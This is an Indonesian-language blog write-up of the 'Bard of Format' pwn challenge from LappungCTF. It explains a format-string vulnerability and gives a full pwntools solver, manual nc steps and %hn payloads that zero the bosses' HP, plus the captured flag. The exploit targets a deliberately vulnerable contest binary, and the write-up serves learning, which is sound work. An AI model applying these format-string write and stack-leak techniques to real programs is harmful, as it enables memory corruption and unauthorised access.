 ```yaml
---
title: "LappungCTF Vol 2.0 - Bard of Format RPG (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "writeup", "lappungctf"]
summary: "Write-up LappungCTF Vol 2.0 - Bard of Format RPG "
image: "/blog/LappungCTFVol2.0-BardofFormatRPG/thumb.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Ini write-up saya untuk challenge **Bard of Format** dari LappungCTF. Challenge ini adalah game RPG terminal kecil di mana kita lawan dua boss: **Golem** dulu, lalu **Dragon**. Menu utamanya ada: *Attack*, *Guard*, *Skill (Bard Song)*, *Heal*, dan *Quit*. Tujuan saya: dapatin `flag.txt`.

Setelah ngulik binary (decompile pake Ghidra/IDA), sata menemukan bahwa input yang diketik pas memilih *Bard Song* langsung dipakai sebagai **format string** ke `printf()` tanpa proteksi — alias format-string vulnerability. Karena program juga ngirim pointer yang mengarah ke field HP boss sebagai argumen variadik `printf`, kita bisa pake `%hn` untuk nulis 0 ke alamat HP dan langsung nge-zero HP boss. Simpel dan elegan.

---

## Ringkasan exploit
Charge Bard Song dengan dua kali `Guard`, lalu kirim format string yang menulis `0` ke alamat HP boss: `%2$hn` buat Golem, dan `%hn%hn` buat Dragon — setelah HP jadi 0, program buka `flag.txt` dan cetak flag.

---

## Bagian teknis (apa yang saya lihat di reversing)

Saya decompile biner dan menemukan panggilan `printf` berbeda tergantung fase:

- **Fase Golem** (fase 1) memanggil:
```c
printf(local_238, 0, puVar8);
```
Jadi variadik argumen adalah `0` (argumen pertama) dan `puVar8` (argumen kedua) — `puVar8` ini menunjuk ke struktur boss, dimana offset pertama adalah HP boss. Karena argumen ke-2 adalah pointer ke HP, kita bisa merujuk ke `2$` di format string. Mengirim `%2$hn` akan menulis 2 byte (low 16-bit) bernilai jumlah karakter yang sudah dicetak hingga titik itu. Karena kita tidak mencetak apa-apa sebelum itu, jumlah karakter = 0 → `%2$hn` menulis 0 ke low-16bit HP. Karena HP Golem = 150 (< 65536), menulis low-16bit ke 0 menyebabkan HP = 0.

- **Fase Dragon** (fase 2) memanggil:
```c
printf(local_238, (char*)puVar8 + 2, puVar8);
```
Sekarang ada dua pointer: satu menunjuk ke `puVar8 + 2` (upper halfword), dan satu ke `puVar8` (lower halfword). Dengan mengirim payload seperti `%hn%hn` kita menulis 0 ke alamat pertama (upper half) lalu 0 ke alamat kedua (lower half) sehingga 32-bit HP menjadi 0.

Catatan penting: `Bard Song` hanya bisa dipakai setelah pemain **survive two full turns** — artinya kita harus menahan serangan boss dua kali; praktisnya `Guard` dua kali sudah cukup.

---

## Kenapa `%hn` bukan `%n`?
- `%n` menulis ukuran `int`/`long` tergantung platform (4/8 byte). `%hn` menulis 2 byte (16-bit). Karena program memberikan pointer ke halfword (atau kita hanya butuh mengubah low/high 16-bit saja), `%hn` adalah yang tepat dan lebih aman untuk manipulasi halfword.
- Kita menulis `0`, jadi nggak perlu padding rumit. Kalau mau nulis nilai lain, kita biasanya pakai padding: `"%1234x%2$hn"` untuk menulis 1234 ke alamat.

---

## Script otomatis (PoC) — `solver.py`
Ini yang saya pake dan berhasil. Pastikan terinstal `pwntools`.

```python
#!/usr/bin/env python3
from pwn import *

HOST = "43.157.205.115"
PORT = 9006

def charge_skill(io):
    # Lakukan Guard dua kali supaya Bard Song siap
    for _ in range(2):
        io.recvuntil(b"> ")
        io.sendline(b"2")  # Guard

def bard(io, payload: bytes):
    io.recvuntil(b"> ")
    io.sendline(b"3")   # Skill (Bard Song)
    io.recvuntil(b"Bard Song:")
    io.sendline(payload)

def main():
    context.log_level = "info"
    io = remote(HOST, PORT)

    # Phase 1: kill Golem
    charge_skill(io)
    bard(io, b"%2$hn")   # tulis 0 ke low-16bit HP

    # Phase 2: kill Dragon
    charge_skill(io)
    bard(io, b"%hn%hn")  # nulis 0 ke upper lalu lower half -> HP = 0

    data = io.recvall(timeout=5)
    print(data.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

Jalankan:
```bash
pip install pwntools
python3 solver.py
```

Output yang saya dapatkan ketika menjalankan solver:
```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/bard$ python3 solver.py
[+] Opening connection to 43.157.205.115 on port 9006: Done
[+] Receiving all data: Done (372B)
[*] Closed connection to 43.157.205.115 port 9006
 ♪ The echoes of your song ripple across the battlefield.

╔══════════════════════════╗
║   👑 The boss collapses! ║
║     You are victorious.  ║
╚══════════════════════════╝
FLAG: LappungCTF{a_b4rd_s0n9_L0v3_rPg_b4ttL3_with_m3loDy_f0rm4t_stRr1nG}
```

---

## Langkah manual (kalau mau pake `nc`)

1. `nc 43.157.205.115 9006`
2. Saat muncul prompt `> `: ketik `2` lalu Enter (Guard). Ulangi sekali lagi jadi total dua Guard.
3. Setelah itu ketik `3` lalu Enter (Skill).
4. Saat muncul `Bard Song:`, ketik `%2$hn` lalu Enter — Golem akan langsung mati / berganti ke Dragon.
5. Ulangi langkah 2–4 untuk Dragon, tetapi pada step 4 kirim `%hn%hn`.
6. Kalau semuanya sukses, flag bakal tercetak.

---

## Penjelasan langkah demi langkah (apa yang terjadi di memory)

- Program meletakkan beberapa argumen ke stack saat memanggil `printf`.
- Di fase Golem argumen terlihat seperti: `printf(fmt, 0, boss_ptr)`. Ini berarti argumen posisi ke-2 (`%2$...`) adalah alamat boss_ptr.
- `%2$hn` membaca jumlah karakter yang dicetak sejauh ini (0), lalu menulis 2-byte (16-bit) ke alamat `boss_ptr`. Itu men-set bagian bawah dari HP menjadi 0 → cukup untuk mengurangi HP 150 jadi 0.
- Di fase Dragon program sengaja memanggil `printf(fmt, boss_ptr+2, boss_ptr)` — menyediakan dua pointer ke HP (upper dan lower half). Mengirim `%hn%hn` menulis nilai (jumlah printed chars, masih 0) ke kedua alamat berurutan, sehingga seluruh 32-bit HP = 0.
- Setelah HP menjadi 0, game akan membuka `flag.txt` dan mencetak isinya.

---

## Troubleshooting & tips

- Kalau koneksi putus: tambahkan retry di script atau naikkan timeout `io = remote(HOST, PORT, timeout=10)`.
- Jika server punya proteksi rate-limit, jalankan perlahan atau pakai retries.
- Kalau payload lain bekerja (mis. server berbeda arg order), coba eksplorasi positional specifiers: `%1$`, `%2$`, `%3$`, dst. Gunakan `%p` untuk leak stack jika perlu.
- Jangan lupa untuk "survive two full turns" sebelum pakai skill — kalau belum charge, program akan menolak.

--- 
**Tags:** #lappungctf #pwn #ctf


